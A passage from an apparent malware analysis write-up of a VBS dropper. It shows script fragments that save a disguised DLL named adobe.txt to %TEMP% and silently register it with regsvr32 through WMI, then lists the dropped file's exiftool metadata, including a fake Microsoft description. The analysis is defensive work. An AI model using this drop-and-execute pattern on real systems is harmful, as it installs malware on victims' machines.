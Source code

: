 ```
.Create "regsvr32.exe -s "+CStr(WScript.CreateObject("Scripting.FileSystemObject").GetSpecialFolder(Cint("2"))+"\")+"adobe.txt",,,processid
End With
```

This is a bit beyond my bailiwick of network analysis, but it appears that it is a timer that counts down by `31`, listens to a stream for a file that it writes as `abobe.txt`, and finally the file is registered as a DLL on the system.

So, that's great, but I wasn't able to extract `adobe.txt` without some help. I called in a lifeline with the great Dustin Lee ([@_dustinlee](https://twitter.com/_dustinlee)) who suggested (correctly) to remove the part of the script that actually executes the binary and it should drop it in the `%TEMP%`directory as denoted by `.SaveToFile CStr(WScript.CreateObject("Scripting.FileSystemObject").GetSpecialFolder(2)+"\")+"adobe.txt", 2`. So, I removed the following:

```
Set HeJddyu=GetObject("winmgmts:Win32_Process")
With HeJddyu
.Create "regsvr32.exe -s "+CStr(WScript.CreateObject("Scripting.FileSystemObject").GetSpecialFolder(Cint("2"))+"\")+"adobe.txt",,,processid
End With
```
After removing that, I ran `cscript SE670131329809.vbs`, and there in `%USERPROFILE%\AppData\Local\Temp` was `adobe.txt`! Phew...from my foxhole, quite a hard fought collection.

Okay, let's look at the metadata here. Of note, it's a DLL (which we expected from the DLL registration routine in the script `Create "regsvr32.exe -s "`), it's called "Windows Media Center Store ipdate Manager" (looks like a typo - nice indicator to search for).

```
/usr/local/bin/exiftool adobe.txt
ExifTool Version Number         : 11.30
File Name                       : adobe.txt
Directory                       : .
File Size                       : 248 kB
File Modification Date/Time     : 2020:03:19 18:02:20-05:00
File Access Date/Time           : 2020:03:19 18:05:41-05:00
File Inode Change Date/Time     : 2020:03:19 18:05:41-05:00
File Permissions                : rwxr-xr-x
File Type                       : Win32 DLL
File Type Extension             : dll
MIME Type                       : application/octet-stream
Machine Type                    : Intel 386 or later, and compatibles
Time Stamp                      : 2020:03:10 06:41:39-05:00
Image File Characteristics      : Executable, No line numbers, No symbols, 32-bit, DLL
PE Type                         : PE32
Linker Version                  : 2.50
Code Size                       : 113152
Initialized Data Size           : 140288
Uninitialized Data Size         : 0
Entry Point                     : 0x1c000
OS Version                      : 4.0
Image Version                   : 0.0
Subsystem Version               : 4.0
Subsystem                       : Windows GUI
File Version Number             : 6.1.7601.17514
Product Version Number          : 6.1.7601.17514
File Flags Mask                 : 0x003f
File Flags                      : (none)
File OS                         : Windows NT 32-bit
Object File Type                : Dynamic link library
File Subtype                    : 0
Language Code                   : English (U.S.)
Character Set                   : Unicode
Company Name                    : Microsoft Corporation
File Description                : Windows Media Center Store ipdate Manager
```